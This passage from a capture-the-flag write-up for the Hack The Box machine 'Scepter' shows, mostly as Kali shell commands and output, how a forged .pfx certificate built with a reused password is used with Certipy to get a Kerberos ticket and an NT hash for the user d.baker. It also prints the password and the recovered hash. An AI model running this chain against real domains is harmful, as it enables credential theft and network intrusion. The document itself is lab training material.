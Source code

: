 | Password    |
| ----------- |
| newpassword |

## Authentication as d.baker

Assuming that the `password` was `reused` also for the the `key` of `baker` we forged our own `.pfx` file using the password `newpassword`.

NOTE: It was important to not set an `Export Password`! Otherwise the following step using `Certipy` would fail!

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ openssl pkcs12 -export -out baker.pfx -inkey baker.key -in baker.crt
Enter pass phrase for baker.key:
Enter Export Password:
Verifying - Enter Export Password:
```

| Password    |
| ----------- |
| newpassword |

### Time and Date Synchronization

In order to work with the `Domain Controller` we needed to `sync` our `date and time` with the `box`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ sudo net time set -S 10.129.248.205
```

### Grabbing NT Hash for d.baker

Now that we had the `baker.pfx` file we used `Certipy` to `authenticate` against the `domain` and receive the `NT Hash` for `d.baker`.

As previously mentioned this step only worked because we did not set the `Export Password`! It is not possible to provide `Certipy` the `Export Password` in order to use it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad auth -pfx 'baker.pfx' -domain 'scepter.htb' -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'scepter.htb' at '10.0.2.1'
[*] Using principal: d.baker@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'd.baker.ccache'
[*] Trying to retrieve NT hash for 'd.baker'
[*] Got hash for 'd.baker@scepter.htb': aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce
```
